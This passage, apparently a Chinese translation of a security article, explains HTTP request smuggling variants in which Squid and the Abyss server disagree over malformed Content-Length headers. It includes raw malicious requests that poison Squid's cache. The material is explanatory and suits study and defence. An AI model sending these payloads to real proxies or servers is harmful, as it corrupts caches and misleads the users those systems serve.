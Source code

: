 ### <a class="reference-link" name="%E5%8F%98%E4%BD%931%EF%BC%9A%E2%80%9CHeader%20SP/CR%20junk:%20%E2%80%A6%E2%80%9D"></a>变体1：“Header SP/CR junk: …”

以下是一个具体例子：

```
Content-Length abcde: 20
```

**Squid**：忽略（可能当做 一个名为`Header SP/CR junk`的头处理）。<br>**Abyss**(web server, proxy)：转换为请求头，Abyss支持多个`Content-Length`头。

假设Squid在Abyss服务器前充当反向代理的角色，以下是缓存中毒的表现：

```
POST /hello.php HTTP/1.1
Host: foo.com
Connection: Keep-Alive
Content-Length: 36
Content-Length Kuku: 3

barGET /a.html HTTP/1.1
Something: GET /b.html HTTP/1.1
Host: foo.com

```

Squid忽略请求头`Content-Length kuku`，并使用`Content-Length: 36`，因此把第二个HTTP请求解释为`GET /b.html`。<br>
然而，Abyss将`Content-Length kuku`视为一个有效的`Content-Length`头，并写作为最后一个`Content-Length`头，Abyss会使用它，并将第二个HTTP请求解释为`GET /a.html`。这样HTTP请求走私就实现了，Squid在URL`/b.html`中缓存了`/a.html`的内容。

### <a class="reference-link" name="%E5%8F%98%E4%BD%932%EF%BC%9A%E2%80%9CWait%20for%20It%E2%80%9D"></a>变体2：“Wait for It”

在变体1中，攻击依赖于Abyss愿意接受多个`Content-Length`头，或者说转换为`Content-Length`头。这变体2中，我将使用单个无效的`Content-Length`头，<br>
假设Squid在Abyss服务器前充当反向代理的角色，以下是缓存中毒的表现：

```
POST /hello.php HTTP/1.1
Host: foo.com
Connection: Keep-Alive
Content-Length Kuku: 33

GET /a.html HTTP/1.1
Something: GET /b.html HTTP/1.1
Host: foo.co

```

这将是Squid在发送POST请求是不包含任何正文（可以认为正文长度为0）。Abyss为了一个正文长度为33 bytes的请求等待30s，然后发送一个HTTP响应。然后Squid发送`GET /a.html`的请求（72 bytes）。前33 bytes被Abyss认为已经占用，剩下的39 bytes将被解释为第二个请求。

### <a class="reference-link" name="%E5%8F%98%E4%BD%933%EF%BC%9A%E7%BB%95%E8%BF%87%E7%B1%BB%E4%BC%BC%20mod_security%20%E7%9A%84%E9%98%B2%E5%BE%A1"></a>变体3：绕过类似 mod_security 的防御
